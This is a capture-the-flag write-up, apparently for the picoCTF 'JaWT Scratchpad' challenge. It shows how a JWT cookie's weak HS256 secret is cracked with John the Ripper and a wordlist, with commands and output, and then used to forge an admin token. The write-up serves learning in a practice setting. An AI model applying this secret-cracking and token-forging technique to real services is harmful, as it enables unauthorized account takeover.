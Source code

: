 # JaWT Scratchpad

The homepage asks us to register with a name.

Using "admin" results in:

```text
YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT.
```

Using any other name logs us in, and stores a JWT cookie, decoding which gives:

```json
{
  "typ": "JWT",
  "alg": "HS256"
}
```

```json
{
  "user": "john"
}
```

The text on the page links to [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper)

```text
Register with your name!
You can use your name as a log in, because that's quick and easy to remember! If you don't like your name, use a short and cool one like John!
```

Using the said tool:

```shell
run $ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" > jwt.txt
run $ ./john jwt.txt --format=HMAC-SHA256 --wordlist=/home/harshit/Downloads/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
ilovepico        (?)     
1g 0:00:00:02 DONE (2025-09-13 15:49) 0.4310g/s 3188Kp/s 3188Kc/s 3188KC/s iluve$..ilovemymother89
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So, the SECRET is `ilovepico`

Using this secret and payload {"user": "admin"}, create JWT token. Edit the value of the cookie, reloading now displays the flag!
